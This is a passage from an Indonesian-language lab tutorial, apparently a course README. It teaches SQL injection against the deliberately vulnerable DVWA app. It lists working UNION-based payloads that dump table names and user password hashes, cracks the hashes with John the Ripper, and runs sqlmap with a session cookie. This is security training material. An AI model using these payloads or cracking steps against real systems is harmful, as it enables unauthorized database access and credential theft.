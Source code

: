 Masukkan perintah berikut di kolom SQL Injection
```
%' or 0=0 union select null, database() #
```
7. Menampilkan semua tabel di information_schema
Masukkan perintah berikut di kolom SQL Injection
```
%' and 1=0 union select null, table_name from information_schema.tables #
```
8. Menampilkan semua pengguna di tabel information_schema
Masukkan perintah berikut di kolom SQL Injection
```
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#
```
9. Menmpilkan kolom di tabel information_schema
Masukkan perintah berikut di kolom SQL Injection
```
%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #
```
10. Menampilkan kolom dan konten tabel di information_schema
Masukkan perintah berikut di kolom SQL Injection
```
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
```
11. Membuat password hash file
Data yang didapatkan dari langkah ke-10 simpan di notepad taruh di folder /pentest/password/john dengan format seperti gambar di bawah

![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/15.PNG)

Jalankan perintah berikut untuk mencrypt password yg terenkripsi
```
cd /pentest/passwords/john
./john --format=raw-MD5 dvwa_password.txt
```



### Lesson 7: Automate SQL Injection with SqlMap

1. Login ke DVWA dan buka menu SQL INjection
2. Start add On tamper data
3. MAsukkan angka 1 di kolom sql injection, maka akan muncul notifikasi submit. uncheck checkbox
![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/16.PNG)
4. Catat data REferrer dan data Cookiedari salah satu paket GET
![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/17.PNG)
5. Buka folder SQLMAP pada terminal dengan mengetik
```
cd /pentest/web/scanners/sqlmap
```
6. Menggunakan sqlmap meandapatkan database dan user yang digunakan
```
/sqlmap.py -u "http://10.0.1.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=lpb5g4uss9kp70p8jccjeks621; security=low" -b --current-db --current-user
```
Ket : sesuaikan data dengan langkah ke 4
